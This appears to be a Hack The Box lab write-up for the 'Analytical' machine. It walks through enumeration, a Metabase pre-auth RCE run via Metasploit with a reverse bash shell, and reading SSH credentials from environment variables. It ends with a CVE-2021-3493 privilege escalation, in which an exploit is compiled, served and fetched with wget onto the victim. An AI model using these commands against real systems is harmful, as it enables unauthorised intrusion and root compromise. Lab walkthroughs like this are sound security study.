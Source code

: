 # Enumeration

The nmap scan reveals two open ports 22 for ssh and 80 where a website is hostet with the dnsname http://analytical.htb

## Enter domain to hosts-file

```
echo '10.10.11.233 analytical.htb | sudo tee -a /etc/hosts'
```

## Login-Panel and adding subdomain

On the website we find the subdomain data.analytical.htb . href of the Login-Button.

```
echo '10.10.11.233 data.analytical.htb | sudo tee -a /etc/hosts'
```

# Foothoold

The Loginpage leads us to the Software Metabase. By google 'metabase exploit' one of the first links talks about an Pre-Auth RCE. https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

This article explains it in detail. By searching for the setup-token at the sourcecode of the login-pages it is verified this works. 
Using Metasploit is the easiest ways in.

## Using Metasploit to gain access

By starting Metasploit and searching for Metabase we get one result which we select by use 0.

```
msfconsole
search Metabase
use 0
```

Module options(exploit/linux/http/metabase_setup_token_rce):
RHOSTS     data.analytical.htb  
RPORT      80
TARGETURI  / 

Payload options(cmd/unix/reverse_bash):
LHOST  tun0
LPORT  4444

## User SSHlogin

```
env
```

Gives us a META_PASS and META_USER which are the ssh credentials.

# Priviliges Escalation 

## Briskets

```
cat /etc/os-release
```

Reveals the Ubuntu 20.04 LTS which is vulnerable for the briskets.

https://github.com/briskets/CVE-2021-3493

On attacker site
```
git clone https://github.com/briskets/CVE-2021-3493
cd CVE-2021-3493/
gcc exploit.c -o exploit
python3 -m http.server PORT
```

On victim site 
```
wget http://IP:PORT/exploit
chmod +x exploit
./exploit
```





